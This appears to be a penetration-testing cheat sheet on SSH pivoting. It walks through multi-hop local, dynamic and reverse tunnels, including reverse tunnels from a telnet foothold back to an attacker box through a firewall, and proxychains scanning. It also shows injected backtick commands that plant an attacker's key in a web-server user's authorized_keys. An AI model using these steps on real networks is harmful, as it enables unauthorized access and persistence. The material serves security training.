




# SSH

## <mark style="color:red;">Notes</mark>

<mark style="color:orange;">`-L`</mark> always attaches the tunnel to a port from the box that the command is run.

Example:

```bash
ssh user@host1 -L 12345:host1:22
```

Authenticate to host1, giving you access to host1's ports.

Create tunnel to host1's port 22 from the attacker port 12345.

## <mark style="color:red;">Local (-L) Tunnel All The Way</mark>

<figure><figcaption></figcaption></figure>

1. Create dynamic tunnel to .21.1's port 22.

```bash
ssh firsthop_user@10.30.20.1 -D 9050 -NT
```

2. Set local port 11111 to tunnel to .1.2's port 22

```bash
ssh firsthop_user@10.30.20.1 -L 11111:10.1.1.2:22 -NT
```

3. Make the local port 11111 a dynamic tunnel to port 22 on the .1.2 (The internal side)

```bash
ssh secondhop_user@localhost -p 11111 -D 9050 -NT
```

4. Using the dynamic tunnel in local port 11111, reach through the .1.2 to reach the next hop, .1.99's port 22.

```bash
ssh secondhop_user@localhost -p 11111 -L 22222:192.168.1.99:22 -NT
```

5. Make local port 22222 a dynamic port and authenticate to 1.99's port 22. From here you can keep going.

```bash
ssh thirdhop@localhost -p 22222 -D 9050 -NT
```


## <mark style="color:red;">Reverse (-R) Tunnel to 1st Hop</mark>

<figure><figcaption></figcaption></figure>

1. Firewall is blocking port 22 on the First Hop. Telnet is open. Use that to gain access, then ssh back to the Attack Box.

```bash
telnet 10.30.20.1
```

1a.   From the First Hop TELNET session, setup a Reverse tunnel to the attackers port 11111 that reaches back to First Hop's port 22.

This reverse tunnel is reaching through the firewall back to the attacker, opening a tunnel to the First Hop's port 22.

This tunnel is connected to First Hop's port 22 but an SSH session has not yet been created.

```bash
ssh attack_user@10.30.0.1 -R 11111:localhost:22 -NT
```

2. Authenticate and connect to the local port 11111 which is connected to port 22 on First Hop.

Creates a dynamic tunnel through the firewall to port 22 on First Hop.

```bash
ssh firsthop_user@localhost -p 11111 -D 9050 -NT
```

3. Use dynamic tunnel on local port 11111 to reach through the First Hop and reach Second Hop's port 22. Attach that tunnel to local port 22222.

```bash
ssh firsthop_user@localhost -p 11111 -L 22222:10.1.1.2:22 -NT
```

4. Make local port 22222 tunnel dynamic and create SSH session to Second Hop.

```bash
ssh secondhop_user@localhost -p 22222 -D 9050 -NT
```

5. Use local port 22222 tunnel to reach Third Hop's port 22. Attach that tunnel to port 33333.

```bash
ssh secondhop_user@localhost -p 22222 -L 33333:192.168.1.99:22 -NT
```

6. Make local port 33333 tunnel dynamic and create SSH session to Third Hop.

```bash
ssh thirdhop_user@localhost -p 33333 -D 9050 -NT
```


## <mark style="color:red;">Reverse (-R) Tunnel to 2nd Hop</mark>

<figure><figcaption></figcaption></figure>

1. Create tunnel and SSH session to First Hop's port 22.

```bash
ssh firsthop_user@10.30.20.1 -D 9050 -NT
```

2. Create tunnel from attackers localport 11111 through First Hop's port 22 to Second Hop's port 23 (TELNET).

```bash
ssh firsthop_user@10.30.20.1 -L 11111:10.1.1.2:23 -NT
```

3. Telnet to Second Hop's port 23 through the tunnel on local 11111.

```bash
telnet localhost 11111
```

3a. From Telnet Session on Second Hop, create an SSH session back to the First Hop's SSH port and attach a reverse tunnel to First Hop's port 22222 that connects to Second Hop's port 22.

```bash
ssh firsthop_user@10.1.1.1 -R 22222:localhost:22 -NT
```

4. Create a tunnel from Attacker's port 33333 that connects to First Hop's port 22222, which is connected to Second Hop's port 22.

```bash
ssh firsthop_user@10.30.20.1 -L 33333:localhost:22222 -NT
```

5. Using local port 33333, create a dynamic tunnel and SSH session to Second Hop's port 22.

```bash
ssh secondhop_user@localhost -p 33333 -D 9050 -NT
```

6. Using local port 33333, create a local tunnel to Third Hop's port 22 and attach it to local port 44444.

```bash
ssh secondhop_user@localhost -p 33333 -L 44444:192.168.1.99:22 -NT
```

7. Using local port 44444, create a dynamic tunnel and SSH session to Third Hop's port 22.

```bash
ssh thirdhop_user@localhost -p 44444 -D 9050 -NT
```


## <mark style="color:red;">Reverse (-R) Tunnel to 3rd Hop</mark>

<figure><figcaption></figcaption></figure>

1. SSH dynamic tunnel to First Hop's port 22.

```bash
ssh firsthop_user@10.30.20.1 -D 9050 -NT
```

2. Local tunnel from Attacker's local port 11111 through First Hop's port 22 to Second Hop's port 22.

```bash
ssh firsthop_user@10.30.20.1 -L 11111:10.1.1.2:22 -NT
```

3. Using local port 11111, create dynamic tunnel and SSH session to Second Hop's port 22.

```bash
ssh secondhop_user@localhost -p 11111 -D 9050 -NT
```

4. Using Attacker's local port 11111 create a tunnel to Third Hop's port 23 and attach it to Attacker's local port 22222.

```bash
ssh secondhop_user@localhost -p 11111 -L 22222:192.168.1.99:23 -NT
```

5. Using Attacker's local port 22222 create TELNET session to Third Hop.

```bash
telnet localhost 22222
```

5a. From the TELNET session from the Third Hop, create a reverse tunnel that connects Second Hop's port 33333 to Third Hop's port 22.

```bash
ssh secondhop_user@192.168.1.120 -R 33333:localhost:22 -NT
```

6. From Attacker's local port 11111 (which is a tunnel to Second Hop's port 22) create a tunnel to Second Hop's port 33333 (which is the Reverse tunnel that connects to Third Hop's port 22) and attach it to Attacker's local port 44444.

```bash
ssh secondhop_user@localhost -p 11111 -L 44444:localhost:33333 -NT
```

7. Using Attacker's local port 44444 which is a tunnel all the way through the firewall to Third Hop, create a dynamic tunnel and an SSH session to Third Hop.

```bash
ssh thirdhop_user@localhost -p 44444 -D 9050 -NT
```


## <mark style="color:red;">Proxychains</mark>

When you setup the Dynamic <mark style="color:orange;">`-D`</mark> tunnel, it allows you to run proxychains and execute commands from the connected host.

Proxychains explicitly allows TCP and DNS (by allowing DNS, it inherently also allows UDP, since DNS uses both).

This means <mark style="color:orange;">`ping`</mark> does not work over proxychains because it uses ICMP.

Proxychains can run local scripts as if they were on the connected computer.

In the above tunneling examples, each time a new hop was accessed, that tunnel was converted to a dynamic tunnel. At that point, you can run any of the following as if it was coming from the connected device:

```bash
proxychains ./script.sh
proxychains nmap -Pn -sT 3.3.3.3/24 -p 21-23,80,1024-65535
proxychains ssh user@3.3.3.3
proxychains ftp 3.3.3.3
proxychains wget -r http://3.3.3.3
proxychains wget -r ftp://3.3.3.3
proxychains curl http://3.3.3.3
proxychains curl ftp://3.3.3.3
```


## <mark style="color:red;">SSH Key Upload</mark>

### <mark style="color:purple;">SSH Key Setup</mark>

1. Generate keys. When prompted for location to save just press enter to leave default, can do the same for password.

```bash
ssh-keygen -t rsa
```

2. After generating ssh key look for public key in your .ssh folder. Your public key will have .pub as the extension

```bash
cat ~/.ssh/id_rsa.pub
```

The entire output is your public key, make sure when uploading you copy everything.

### <mark style="color:purple;">Uploading SSH Key</mark>

Pave the way to upload your key:

1. Find out what account is running the web sever/commands.

```bash
` whoami
```

2. Locate user's home dir in /etc/passwd. Make sure the user has a login shell.
3. Check home dir for .ssh dir. If it's not there, make it.

```bash
ls -la /users/home/dir
mkdir /users/home/dir/.ssh
```

4. Echo ssh key to the authorized\_keys file in the users .ssh folder.

```bash
` echo "your_public_key">> /users/home/dir/.ssh/authorized_keys
```

5. Verify key has been uploaded successfully.

```bash
` cat /users/home/dir/.ssh/authorized_keys
```

Now you can login as whoever's account you planted the key. If prompted for a password something went wrong.

## <mark style="color:red;">Using SSH Keys</mark>

Using SSH Keys:

Bring private key to localhost

On your box:

```bash
chmod 600 /home/user/key
ssh -i /home/user/key user@10.10.10.1
```

## <mark style="color:red;">Immediately Run Commands Upon Login</mark>

You can run commands immediately on login using the commands below.

These were used in a challenge to defeat a script in the .bashrc file that immediately logged me out of ssh session.

```bash
ssh user@10.10.10.1 'vim ~/.bashrc; exec bash -l'
ssh user@10.10.10.1 'ls -lisa; exec bash -l'
ssh user@10.10.10.1 'cat readme; exec bash -l'
```
